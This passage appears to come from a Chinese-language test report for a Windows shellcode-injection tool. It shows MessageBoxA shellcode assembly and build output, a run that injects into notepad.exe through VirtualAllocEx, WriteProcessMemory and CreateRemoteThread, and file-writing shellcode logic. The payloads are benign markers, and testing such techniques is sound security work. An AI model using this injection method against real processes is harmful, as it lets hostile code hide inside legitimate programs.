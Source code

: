 **结果**: ✅ **成功** - 线程退出码 `0x12345678` 证明 shellcode 成功执行

---

### 测试 2: MessageBox Shellcode (msgbox_shellcode.bin)

**目的**: 验证调用 Windows API (MessageBoxA)

**Shellcode 逻辑**:
```asm
sub rsp, 0x28                    ; Shadow space
xor rcx, rcx                     ; hWnd = NULL
lea rdx, [rip+message]          ; lpText
lea r8, [rip+title]             ; lpCaption
xor r9, r9                       ; uType = MB_OK
mov rax, <MessageBoxA>           ; API 地址
call rax                          ; 调用
mov rax, <ExitThread>
call rax                          ; 退出线程
```

**生成 Shellcode**:
```bash
$ gcc -o msgbox_shellcode.exe msgbox_shellcode.c -luser32
$ ./msgbox_shellcode.exe
[+] MessageBoxA address: 0x00007FFB3BE07A70
[+] ExitThread address: 0x00007FFB40368DE0
[+] Shellcode generated: 79 bytes
[+] Shellcode written to msgbox_shellcode.bin
```

**执行注入**:
```bash
$ ./shellcode_injection.exe "C:\Windows\System32\notepad.exe" msgbox_shellcode.bin

[+] VirtualAllocEx() 成功，地址: 0x000001A57E0B0000
[+] WriteProcessMemory() 成功，写入: 79 bytes
[+] CreateRemoteThread() 成功，线程句柄: 0x00000000000002CC
[*] 等待 shellcode 执行...
[*] Shellcode 可能仍在执行（超时）
```

**结果**: ✅ **成功** - MessageBox 弹窗出现（等待用户点击，超时正常）

**验证截图**: 观察到 notepad.exe 进程弹出 MessageBox，标题 "Success"，内容 "Shellcode Injected!"

---

### 测试 3: 文件验证 Shellcode (fileverify_shellcode.bin)

**目的**: 完整功能验证（创建文件 + 写入内容 + 自动退出）

**Shellcode 逻辑**:
```c
// 调用 CreateFileA
CreateFileA(
    "C:\\Users\\Public\\shellcode_injection_verified.txt",
    GENERIC_WRITE, 0, NULL, CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL, NULL
);

// 调用 WriteFile
WriteFile(hFile, content, contentLen, &written, NULL);

// 调用 CloseHandle
CloseHandle(hFile);

// 调用 ExitThread
ExitThread(0);
```